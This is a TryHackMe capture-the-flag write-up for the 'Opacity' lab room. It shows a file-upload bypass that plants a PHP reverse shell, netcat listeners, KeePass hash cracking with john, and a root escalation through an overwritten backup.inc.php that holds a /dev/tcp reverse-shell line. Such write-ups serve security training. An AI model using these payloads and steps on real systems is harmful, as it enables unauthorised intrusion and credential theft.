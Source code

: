 # TryHackMe Writeup — [Opacity](https://tryhackme.com/room/opacity)

## Description
In this room, we performed a full attack chain: starting with port scanning, finding a file upload vulnerability, escalating privileges through credential extraction, and finally achieving root access. The attack involved directory enumeration, bypassing file upload restrictions, cracking a KeePass database, and exploiting misconfigurations for privilege escalation.

## Scanning & Enumeration
Initial port scan revealed:
```python
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
## Exploring HTTP (Port 80)
On the web server, we found a login page. SQL injection attempts failed, so we moved to directory enumeration:
```python
gobuster dir -u http://10.10.111.120 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Discovered directory: ```/cloud```

On that page, we found an image upload form — a good target for uploading a reverse shell.

## Getting a Reverse Shell

1. Start an HTTP server to host the shell:
```python
python3 -m http.server
```
2. In the upload form, enter the URL to the shell:
```python
http://10.10.10.10:8000/shell.php#.png
```
3. Listen for the connection:
```python
nc -lvnp 4444
```
4. Trigger the shell by accessing:
```python
   http://10.10.111.120/cloud/images/shell.php#.png
```
Reverse shell obtained.

## Gaining User Access

We found a file ```local.txt```, but it was restricted. While exploring ```/opt```, we discovered dataset.kdbx (a KeePass database).

1. Download it to our machine:
```python
wget http://10.10.111.120/dataset.kdbx
```
2. Extract its hash for cracking:
```python
keepass2john dataset.kdbx > keepass.hash
```
3. Crack the password using ```john```:
```python
john keepass.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
4. Open the KeePass file with keepassxc and retrieve the SSH password for user sysadmin.

Log in via SSH:
```python
ssh sysadmin@10.10.111.120
```
We can now read ```local.txt```

## Privilege Escalation to Root
Inside ```cd scripts/lib/```, we found a file backup.inc.php. We decided to abuse it to get a root shell.

1. On our machine, create the following file:
```python
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
?>
```
2. Serve it with HTTP:
```python
python3 -m http.server
```
3. Download it to the target:
```python
wget http://10.10.10.10:8000/backup.inc.php
```
4. Listen for the incoming connection:
```python
nc -lvnp 1234
```
After a short wait, root access obtained.

## Conclusion
This room demonstrated the dangers of poor file upload validation, improper file permission management, and sensitive data exposure. By chaining enumeration, exploitation, and credential cracking, we achieved full system compromise and root access.
